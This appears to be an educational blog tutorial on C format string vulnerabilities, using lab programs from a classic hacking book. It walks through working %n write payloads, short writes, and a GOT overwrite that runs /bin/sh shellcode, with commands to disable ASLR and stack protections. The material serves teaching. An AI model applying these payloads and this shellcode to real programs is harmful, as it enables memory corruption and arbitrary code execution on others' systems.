 #+title: Format string vulnerability
#+description: todo
#+publishdate: 2024-01-29


* What's a format string vulnerability?

A format string vulnerability is a type of bug that can happen when we process user input with format strings. For example, C has several functions that allow it to do that. One of them is ~printf~ (e.g. src_c[:exports code]{printf("I am %i years old", 999);}). An attacker can exploit them to read and write to arbitrary memory locations, execute arbitrary code or make the program crash.

* What's the problem?

The main problem is that the format string, when unchecked, let's user insert format parameters to read and write memory addresses inside and before the stack. For example, let's take the following C line of code.

#+begin_src C
  printf("hello %x %x", 3, 7);
#+end_src

If we run it, the output will be ~hello 3 7~. The parameters are pushed into the stack in reverse order. It pushes the 7, the 3, and the address of the format string. However, if we remove the 7 and rerun it, we will see something like ~hello 3 0xbfffff8b~. The format string will get the data from where the argument should have been placed. In that case, from the first address below the stack frame.

* Format String vulnerability demo

All the vulnerable programs are from Hacking: The Art of Exploitation, 2nd Edition. You can get the original source code https://github.com/intere/hacking/blob/master/booksrc.

#+begin_src C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
   char text[1024];
   static int test_val = -72;

   if(argc < 2) {
      printf("Usage: %s <text to print>\n", argv[0]);
      exit(0);
   }
   strcpy(text, argv[1]);

   printf("The right way to print user-controlled input:\n");
   printf("%s", text);


   printf("\nThe wrong way to print user-controlled input:\n");
   printf(text);

   printf("\n");

   // Debug output
   printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);

   exit(0);
}
#+end_src

The code is quite self-explanatory. The vulnerable line of code is: ~printf(text)~. Notice that it will print whatever the user feeds to it as input. We can pass any format string that we want. Before continuing, let's see how to compile the program.

#+begin_src bash
  gcc fmt_vuln.c -o fmt.out -fno-stack-protector -no-pie -m32
#+end_src

- ~-fno-stack-protector~ to disable canaries
- ~-no-pie~ to disable Position Independent Executable
- ~-m32~ to compile it as a 32 bit binary

Let's continue with the exploit. The following image shows two executions. 

#+attr_html: :class centered-image
[[/images/format_string_vuln/print-input-vuln.png]]

The first executions gets ~"something"~ as input. The output is the expected one. The interesting part is in the second execution, where we pass ~$(printf "\x2c\xc0\x04\x08").%08x.%08x.%08x.%n~ as input (the dots are just to make the output clearer). As a result, we overwrite the ~test_val~ variable. How is that possible? Let's see. The format string is crafted to accomplish three things. First, we push the ~test_val~ memory address into the stack with ~$(printf "\x2c\xc0\x04\x08")~. Second, we read memory address until we reach the data we inserted at the beginning of the format string with ~%08x.%08x.%08x~. I didn't know beforehand that I needed to read three addresses, I checked it manually. Third and last, we overwrite the data in ~test_val~ with the number of characters printed by printf with ~%n~. For clarification, when we call ~%n~, we already traversed all the memory addresses until the one containing ~\x2c\xc0\x04\x08~. Therefore, ~%n~ overwrites the data in that memory address, which happens to be ~test_val~.

Similarly, if we increment the width of some of the format string parameters, we can overwrite ~test_val~ with higher values.

#+attr_html: :class centered-image
[[/images/format_string_vuln/print-input-vuln-400.png]]

That's seemingly stupid thing is really powerful. We can overwrite memory addresses with whatever value we want (e.g another memory address). That's the idea of the exploit. Let's jump to the following exercise.

* Write to memory address

In that first exercise, we will see how to overwrite the value with the memory address ~ddccbbaa~. Of course, you can follow these steps to overwrite it with any other memory address of your liking. The only prerequisite is that the hexadecimal values of each byte must be greater than the value of the following one.

To write ~ddccbbaa~, we need go byte by byte. We cannot write them at once. That means that ~$(printf "\x2c\xc0\x04\x08")~ won't be enough. We need to push the following three memory addresses into the stack. We can do that with something like ~$(printf "{address 1}{address 2}{address 3}{address 4}")~. Besides, we also need to overwrite them. For example, ~$(printf "{address 1}{address 2}{address 3}{address 4}").%08x.%08x.%{number 1}x%n%{number 2}x%n%{number 3}x%n%{number 4}%n~, where each ~%{number}%n~ is overwriting one byte. There's one issue, though. We must add 4 bytes between each memory address so that each ~%n~ overwrites the correct memory address. Remember, each format parameter is reading a memory address from the stack. If we don't add 4 bytes between each address, the ~%{number}x~ would read one of the memory addresses we want to overwrite. Thus, we want something similar to ~$(printf "{address 1}JUNK{address 2}JUNK{address 3}JUNK{address 4}").%08x.%08x.%{number 1}x%n%{number 2}x%n%{number 3}x%n%{number 4}%n~.

Great! We have the structure, but how do we compute the numbers for each ~%x~?

For the firts byte, we want to execute the command

#+begin_src bash
  ./fmt.out $(printf "\x2c\xc0\x04\x08JUNK\x2d\xc0\x04\x08JUNK\x2e\xc0\x04\x08JUNK\x2f\xc0\x04\x08").%08x.%08x.%08x.%n
#+end_src

which will give us the value of ~test_val~ (56). With that, we can compute the first number with the formula "expected value - initial value + 8". That will give us the distance from the actual value stored in the variable to the value we want. The "+ 8" comes from the 8 digits we are inserting in the ~%08x~ that appears before ~%n~. We can compute this with gdb.

#+begin_src bash
  gdb -q --batch --ex "p 0xaa - 56 + 8"
#+end_src

Now, we can execute the following to get the first byte.

#+attr_html: :class centered-image
#+attr_html: :width 1200px
[[/images/format_string_vuln/first-byte.png]]

For the following bytes, we have to do the same. However, to compute the numbers, we will use the formula "expected value - previous written value".

#+attr_html: :class centered-image
#+attr_html: :width 1200px
[[/images/format_string_vuln/ddccbbaa.png]]

Awesome! We know how to overwrite memory addresses, but we are rather limited. The bytes must be ordered in descending value. What if we want to write any arbitrary memory address? We cannot do something like ~%-10x%n~. What do we do in those situations?

* Write arbitrary bytes to memory address

The solution for that is straigth forward. We want to "wrap" the smaller byte. In other words, instead of computing "expected value - previous written value" we will compute "1(expected value) - previous written value" (e.g. 0x1aa - 0xbb given that we want to write 0xaa). The procedure stays the same.

#+attr_html: :class centered-image
#+attr_html: :width 1200px
[[/images/format_string_vuln/aaccaabb.png]]

Amazing! But this is to much work, can't we simplify it a little bit?

* Direct access and short writes

There are two ways to simplify the process. First, we can use direct access to avoid writing numerous format parameters. We can use ~%n$d~ where ~%n~ indicates the argument position and ~$d~ indicates the format parameter type.

#+attr_html: :class centered-image
[[/images/format_string_vuln/direct-access.png]]

We can simplify what we did in the previous section. Be aware that the structure changes a bit. We want to use  ~$(printf "{address 1}{address 2}{address 3}{address 4}")%{number 1}x%4\$n%{number 2}x%5\$n%{number 3}x%6\$n%{number 4}x%7\$n%~. Notice that we no longer need:

- the padding between memory addresses
- to add 8 when computing the first value

#+attr_html: :class centered-image
#+attr_html: :width 1200px
[[/images/format_string_vuln/direct-access-aaccaabb.png]]

But that's not all. We can also use short writes to write two bytes at once. We need to use ~%n$hd~, remove the second and fourth memory addresses, and compute the new values.

#+attr_html: :class centered-image
[[/images/format_string_vuln/short-write.png]]

#+attr_html: :class centered-image
[[/images/format_string_vuln/short-write-result.png]]

Pretty neat, eh? With that knowledge, we could get a shell if we wanted to.

* Overwrite Global Offset Table to get a shell

The Global Offset Table (GOT) is a section of a computer program that holds the memory addresses of functions that are dinamically linked. It's useful to call functions from shared libraries. We will rewrite a memory address there with the address of our shellcode, but first, let's see how to compile the program.

#+begin_src bash
  gcc fmt_vuln.c -o fmt.out -fno-stack-protector -no-pie -z norelro -z execstack -m32
#+end_src

Notice that we added ~-z norelro~ to allow overwriting memory addresses in the GOT, and ~-z execstack~ to require executable stack.

We also need to disable the Adress Space Layout Randomization (ASLR) to avoid random memory addreses.

#+begin_src bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
#+end_src

Now, the idea is pretty simple. We want to overwrite the memory address of the ~exit~ function in the GOT table. For that, we will need a couple of things.

We need a 32 bits shellcode. We can get one with the following C program. I got it from https://shell-storm.org/.

#+begin_src C
  #include <stdio.h>
  #include <string.h>
 
  char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
    "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

  int main(void)
  {
    fprintf(stdout,"Length: %d\n",strlen(shellcode));
    (*(void(*)()) shellcode)();
    return 0;
  }
#+end_src

We also need a program to get the shellcode address. We will store in an environment variable.

#+begin_src C
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
      printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
      exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
  }
#+end_src

From that point, the procedure is pretty straight forward.

1. Store shellcode in an environment variable

   #+begin_src bash
     export SHELLCODE=$(cat shellcode.bin)
   #+end_src

2. Get shellcode address

   #+begin_src bash
     ./getenv.out SHELLCODE ./fmt.out 
   #+end_src

3. Compute the values we will put at the format string exploit for the given shellcode address

   #+begin_src bash
     gdb -q --batch --ex "p 0xffff - 8"
     # 65527
     gdb -q --batch --ex "p 0x1d9b8 - 0xffff"
     # 55737
   #+end_src

4. Get ~exit~ address in GOT

   #+attr_html: :class centered-image
   [[/images/format_string_vuln/got-table.png]]

5. Exploit

   #+begin_src bash
     ./fmt.out $(printf "\x7a\xb2\x04\x08\x78\xb2\x04\x08")%65527x%4\$hn%55737x%5\$hn
   #+end_src

   #+attr_html: :class centered-image
   [[/images/format_string_vuln/shell-execution.png]]

* Conclusion

Don't execute format string inputted by the users. Thanks. That will save you lots of headaches.
